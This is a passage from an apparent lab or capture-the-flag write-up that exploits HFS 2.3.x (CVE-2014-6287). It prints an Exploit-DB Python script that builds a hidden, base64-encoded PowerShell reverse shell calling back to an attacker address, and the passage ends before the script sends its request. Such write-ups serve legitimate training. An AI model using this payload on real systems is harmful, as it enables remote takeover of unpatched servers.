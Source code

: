 I didn't immediately get a hit.

Looking at my other listener, it now had some ICMP requests in it:

![](/assets/images/blogs/Pasted image 20210613113907.png)

This is strange - I guess they took a while to come through. But it means we did have code execution when we tried earlier - just no shell.

After a wait, the `39161.py` exploit also eventually executed, requesting the `nc.exe` file:

![](/assets/images/blogs/Pasted image 20210613115437.png)

I'd already moved onto the next exploit when I noticed this, but I would eventually [fix it](#getting-a-better-shell) in the final stage of priv esc.

I should have been a little more patient and then I may have been able to debug that I needed to host `nc.exe`, but the next exploit I tried was much easier to read and understand anyway.

### Working HFS Exploit

I tried another: [https://www.exploit-db.com/exploits/49584](https://www.exploit-db.com/exploits/49584)

{% raw %}
```python
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.16.211"
lport = 413
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
print("\nEncoded the command in base64 format...")

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
```